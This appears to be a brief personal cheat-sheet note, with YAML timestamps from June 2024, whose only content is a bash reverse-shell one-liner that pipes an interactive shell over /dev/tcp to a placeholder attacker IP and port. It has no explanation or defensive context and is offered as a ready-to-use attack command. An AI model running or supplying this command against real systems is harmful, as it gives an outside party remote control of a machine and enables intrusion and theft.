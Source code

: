 ```yaml
---
created: 2024-06-15T20:07
updated: 2024-06-15T20:08
---
```


```sh
bash -c 'sh -i >& /dev/tcp/[ YOUR IP ]/[ PORT ] 0>&1'
```

